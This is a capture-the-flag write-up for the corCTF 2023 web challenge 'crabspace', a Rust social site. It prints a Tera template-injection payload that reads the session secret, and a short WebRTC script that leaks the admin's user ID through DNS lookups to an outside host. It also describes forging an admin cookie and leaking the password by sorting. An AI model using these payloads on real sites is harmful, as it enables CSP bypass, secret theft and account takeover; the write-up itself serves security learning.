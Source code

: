 ```yaml
---
layout: post
title: corCTF 2023 web/crabspace Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[corCTF](https://2023.cor.team/challs)  
[Event on CTFtime](https://ctftime.org/event/1928)

It was a team effort for us to solve this challenge. I learned something new about WebRTC.

## Solution summary

- SSTI in `Tera::one_off` to leak secret
- WebRTC to bypass CSP restrictions and exfiltrate admin user ID
- Forge admin cookie with admin user ID and secret to gain access to admin view
- Follow admin account and sort following accounts on password field to leak admin password (which is the flag)

## crabspace

- Description:
  > Now that Twitter is 🦀 gone 🦀, it's time for a new social media platform.  
    🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀
- Author: Strellic

The source code is provided. I can create users, edit my "space", view other users' "space"s, and follow other users.

![crabspace](/assets/image/corctf-2023-crabspace-web-writeup/crabspace.png)

To view a user's "space", visit `/space/<user id>`, The user id is UUIDv4 generated when the user is created. The "space" content is rendered in an `iframe`, with the content in the `iframe`'s `srcdoc` attribute.

{% raw %}
```html
<iframe sandbox="allow-scripts"
srcdoc="<link rel='stylesheet' href='/public/axist.min.css' />{{ space }}" class="space"></iframe>
```
{% endraw %}

With content in `srcdoc`, it is rendered as HTML in the `iframe` even it is escaped in the template, thus we have an easy(?) XSS.

The users are defined as a struct as shown below and stored in a map.

```rust
#[derive(Debug, Serialize, Clone)]
pub struct User {
    pub id: Uuid,
    pub name: String,
    pub pass: String,
    pub following: Vec<Uuid>,
    pub followers: Vec<Uuid>,
    pub space: String,
}
```

The admin user with flag as the password, and a random ID is created on starting of the application.

The bot first logs in as admin, then visit an URL we provide.

## Finding SSTI

Initially it was not clear how we can get the flag from what is obvious. While I was on the train I read the source code twice and with the help of [documentation](https://docs.rs/tera/latest/tera/struct.Tera.html#method.one_off) I found the `one_off` function in Tera when rendering "space" page is a bit suspicious.

```rust
ctx.tera.insert(
    "space",
    &Tera::one_off(&user.space, &ctx.tera, true).unwrap_or_else(|_| user.space.clone()),
);
ctx.tera.insert("id", &id);
utils::render(tera, "space.html", ctx.tera).into_response()
```

![one_off is used in the code.](/assets/image/corctf-2023-crabspace-web-writeup/one-off.png)

The code takes the user's "space" as template and renders it. Tera templates documentation can be found at <https://tera.netlify.app/docs/#templates>.

When I printed out the template context with {% raw %}`{{ __tera_context }}`{% endraw %}, I got:

{% raw %}
```
{ "user": { "followers": [], "following": [], "id": "af787749-d532-4d37-94a6-2d6bc4201f63", "name": "lollol", "pass": "", "space": "{{ __tera_context }}" } }
```
{% endraw %}

The context includes the user struct, which includes the ID of the logged in user. However, the password is set to empty string when the context is created:

```rust
user = USERS.get(&id).map(|v| User {
    pass: "".to_string(),
    ..v.clone()
});
```

We can use SSTI to leak the secret for session cookie with {% raw %}`{{ get_env(name="SECRET") }}`{% endraw %}. With the secret and the user ID of admin, we can forge a session cookie to login as admin.

## Leak admin user ID

With the SSIT which can render the user ID and XSS, leaking the admin user ID should be easy right? However, with the very strict fetch directive CSP below, we tried including fetch API, WebSocket, meta tag and JS redirect, form and DNS prefetch, but had no luck exfiltrating the data. I could not find any endpoint on within the challenge that I could use style-src to exfiltrate the data neither.

```
default-src 'none'; style-src 'self'; script-src 'unsafe-inline'; frame-ancestors 'none'
```

I then reading through all non-fetch directives in CSP, and some research. While getting ready to go to bed, thinking about all the cases where a webpage makes request to server, WebRTC came to my mind (I have also noticed [a very new TR about WebRTC](https://www.w3.org/TR/webrtc-nv-use-cases/), which may or may not be related). As I do not know much about WebRTC, I put a message on our Discord channel before I went to bed.

The next morning, I started with some WebRTC examples. The payload is limited to only 200 characters, with some trial and error, I managed to craft a minimal payload (and minified with <https://www.toptal.com/developers/javascript-minifier>) that would do DNS request for the STUN server I specify:

{% raw %}
```html
<script>async function a(){c=({iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]})(p=new RTCPeerConnection(c)).createDataChannel("d"),await p.setLocalDescription()}a();</script>
```
{% endraw %}

With whitespace added to make it be more readable in the blogpost (however it's more than 200 characters including whitespace):

{% raw %}
```html
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```
{% endraw %}

The port does not matter, as we are exfiltrating through DNS request. The user ID is included in the hostname and sent through DNS request.

## Getting the flag

The admin account has access to admin view for each user (except admin itself). The admin view has the lists of followers and followings of the user. The lists are sorted with field specified in the URL query parameter. It is possible to sort by password field using `?sort=pass`.

We can have a main account to follow other users. We can then create a list of users with selected password, and follow them along with admin on our main account. With the admin view, we can list the followings of the main account sorted by password, and we can get the flag character by character. This can be scripted with preparing the whole following list and get one character each time we visit the admin view, or can script with binary search. (This is kinda pain to extract the flag, thanks to my teammate implemented the solution.)

Got the flag 🦀:

```
corctf{b3tter_name_th4n_x}
```